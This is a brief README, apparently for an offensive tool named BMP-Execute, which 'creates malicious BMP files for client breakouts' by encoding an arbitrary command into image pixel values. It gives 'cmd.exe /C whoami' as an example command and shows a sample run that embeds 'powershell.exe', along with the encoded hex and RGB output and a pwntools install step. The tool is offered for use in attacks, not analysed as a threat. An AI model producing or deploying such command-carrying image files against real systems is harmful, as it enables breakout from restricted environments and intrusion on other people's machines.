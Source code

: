 # BMP-Execute
Create malicious BMP files for client breakous

Can specify any commands you like eg "cmd.exe /C whoami"

```
./BMP_Execute.py -c powershell.exe -o test
Command is  powershell.exe
Output file is  test
Cmd in hex is:  b'706f7765727368656c6c2e657865'
RGB = (10, 0, 0)
RGB = (13, 10, 13)
RGB = (119, 111, 112)
RGB = (115, 114, 101)
RGB = (108, 101, 104)
RGB = (101, 46, 108)
RGB = (0, 101, 120)
```

## Requirements
This tool requires pwntools package that can be installed using:

`pip install pwntools`

